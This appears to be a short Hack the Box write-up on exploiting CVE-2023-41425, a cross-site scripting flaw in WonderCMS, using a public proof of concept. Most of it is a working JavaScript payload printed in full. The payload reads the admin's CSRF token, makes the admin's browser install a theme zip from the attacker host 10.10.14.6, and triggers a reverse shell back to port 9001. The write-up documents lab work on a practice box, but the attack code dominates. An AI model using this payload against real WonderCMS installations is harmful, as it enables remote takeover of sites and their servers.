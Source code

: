 # WonderCMS - CVE-2023-41425

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

Source: https://nvd.nist.gov/vuln/detail/CVE-2023-41425

POC: https://github.com/prodigiousMind/CVE-2023-41425/tree/main

# Testing POC

The script needed to be modified to load the zip from my own web server which the box has access to. Since machines on Hack the Box have no internet they cannot download from GitHub.

## Modifications

Highlight of the modifications.

```js
var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.6/main.zip&directoryName=violet&type=themes&token=" + token;
```

## Payload (xss.js)

The XSS payload in full.

```
var url = "http://sea.htb/";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.6/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "10.10.14.6";
       var port = "9001";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
```

